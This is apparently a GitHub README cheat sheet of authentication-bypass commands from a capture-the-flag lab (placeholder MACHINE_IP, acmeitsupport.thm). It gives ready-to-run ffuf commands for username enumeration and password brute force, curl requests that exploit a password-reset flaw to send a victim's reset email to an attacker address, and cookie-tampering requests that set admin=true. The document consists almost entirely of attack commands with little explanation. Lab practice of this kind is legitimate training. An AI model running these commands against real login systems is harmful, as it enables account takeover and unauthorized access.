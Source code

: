 # Authentication-Bypass 
  ![loginReq](https://user-images.githubusercontent.com/94301241/175791940-dea54eb2-cfb2-4cd5-885d-6ac5f2dc6190.png)

# 🤢Username Enumeration
    ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type:       application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
  
# ▶️ Brute Force
      Example1: ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2       -X     POST -d       "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc        200
      Example2: ffuf -w /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -X POST -d                      "username=steve&     password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.170.164/customers/login -fc 200

# ▶️Logic Flaw 
    i. curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d                 'username=robert'
    ii. curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d                 'username=robert&email=attacker@hacker.com'
    iii. curl 'http://MACHINE_IP/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
  
 # 🍪Cookie Tampering 
    i.  curl http://MACHINE_IP/cookie-test
    ii. curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
    iii. curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
    Online-Tools: https://crackstation.net/
